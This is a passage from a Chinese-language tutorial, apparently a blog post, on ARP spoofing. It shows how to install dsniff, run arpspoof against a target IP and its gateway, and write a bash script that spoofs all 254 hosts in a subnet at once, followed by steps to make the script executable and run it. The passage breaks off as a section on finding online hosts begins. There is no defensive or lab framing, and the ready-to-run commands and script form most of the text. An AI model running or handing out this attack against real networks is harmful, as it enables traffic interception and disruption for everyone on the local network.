 例如：下载dsniff包

输入：yum -y install dsniff

![image-20240117114639273](https://i-blog.csdnimg.cn/blog_migrate/98c77267638537f9c5a4f9cb1773f768.png)

虚拟机启动arp攻击

输入:arpspoof -i ens33 -t 目标IP 网关IP

例如：arpspoof -i ens33 -t 10.36.193.182 10.36.193.1

![image-20240117114225217](https://i-blog.csdnimg.cn/blog_migrate/ac075fd1d827e30526124c9327eab80e.png)

拓展知识

编辑一个脚本攻击网关下所有网段的ip

首先随意在目录下创建一个脚本

例如：vim gj.sh,而后配置脚本内容

​ 操作如下图所示

```ini
#! /bin/bash

for i in {1..254}

do

{

                        arpspoof -i ens33 -t 10.36.193.$i 10.36.193.1

}&
done
wait


```

操作如下图所示

![image-20240117130640012](https://i-blog.csdnimg.cn/blog_migrate/f2d105ee4c0565467f5af337e3a2e71b.png)

第二步：配置完脚本文件后给他权限 输入：chmod a+x 文件名

例如:chmod a+x gj.sh 也可以 chomd -R 777 gj.sh

第三步：输入：./gj.sh

操作如下图所示

![image-20240117161310760](https://i-blog.csdnimg.cn/blog_migrate/1fc02426491cbc8dc870040ea50a9796.png)

二、搜寻所有在线的 ip

首先创建一个脚本 ip.sh
